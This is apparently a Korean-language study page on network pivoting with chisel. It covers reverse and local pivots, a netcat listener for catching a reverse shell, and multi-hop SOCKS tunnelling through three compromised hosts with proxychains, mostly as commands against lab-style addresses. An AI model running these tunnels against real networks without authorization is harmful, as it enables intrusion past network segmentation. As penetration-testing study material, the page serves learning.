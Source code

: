 ```yaml
---
layout: page
title: Tunnelling
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}



Chisel
https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz



### [Reverse Pivot]
Kali에서 Target으로 요청을 보낼 때

```bash
chisel server -p 8081 --reverse &
```


```bash
vim /etc/proxychains4.conf
```
![Pasted_image_20250708230909.png](/image/Pasted_image_20250708230909.png)
맨 밑에다 추가
```text
socks5 127.0.0.1 1080
```



```bash
# 연결된 동안에도 다른 작업해야하기 때문에 백그라운드로 실행
./chisel client 10.250.180.2:8081 R:socks &
```



```bash
proxychains -q curl 10.200.180.150
```
![Pasted_image_20250708231334.png](/image/Pasted_image_20250708231334.png)



공격자 서버에서는 10.200.180.150 ip에 바로 접근 할 수 없음.
10.250.180.200 서버에서는 10.200.180.150 으로 접근할 수 있기에 터널링을 통해 공격자 서버에서 바로 접근 가능하도록 하는 것.








### [Local Pivot]

대상에서 트래픽을 받을 때 (리버스 쉘 붙일 때)


```bash
chisel server -p 8000
```

```bash
chisel client [kali ip]:8000 9000:127.0.0.1:9010

# Target 2에서 붙을 chisl server
chisel server -p 8001
```
Target 1 에서 9000번 포트를 열고 Target 1의 9000번 포트를 통한 트래픽은 kali에서 127.0.0.1:9010 으로 나가라.



```bash
chisel client [Target 1 ip]:8001 9001:127.0.0.1:9000
```



```bash
rlwrap nc -lvnp 9010
```

```powershell
Test-NetConnection [Target 1 ip] -Port 9001
```
Target 2의 9001번 포트로 트래픽을 전송 -> Target 2으로 들어온 트래픽을 Target1 로 전송 -> Target1로 들어온 트래픽을 Kali로 전송 -> Kali로 들어온 트래픽은 Kali의 9010 포트로 나가셈.




## [Multi-hop Pivoting]

대상으로 트래픽을 보낼 때

### [[Multi-hope pivoting diagram]]



```bash
chisel server -p 9001 --reverse
```

```plaintext
# Target 개수에 맞춰줘야함

# 1번째 터널 입구
socks5 127.0.0.1 9999
# 2번째 터널 입구
socks5 127.0.0.1 8888
# 3번째 터널 입구
socks5 127.0.0.1 7777
```



Kali를 향한 `client`이자, Pivot 2를 위한 `server`.

```bash
# Kali로 접속 (1번 터널 생성)
./chisel client <Kali_IP>:9001 R:9999:socks

# Pivot 2의 접속을 대기
./chisel server -p 9002 --reverse
```



Target 1을 향한 `client`이자, Pivot 3을 위한 `server`.

```bash
# Pivot 1로 접속 (2번 터널 생성)
./chisel client <Target1_IP>:9002 R:8888:socks

# Pivot 3의 접속을 대기 (새로운 서버 실행)
./chisel server -p 9003 --reverse
```



Target 2를 향한 `client`.

```bash
# Pivot 2로 접속 (3번 터널 생성)
./chisel client <Target2_IP>:9003 R:7777:socks
```



터널링 
```bash
# Target 3로 curl 명령 날릴 수 있음
proxychains -q curl <Target3_IP>
```

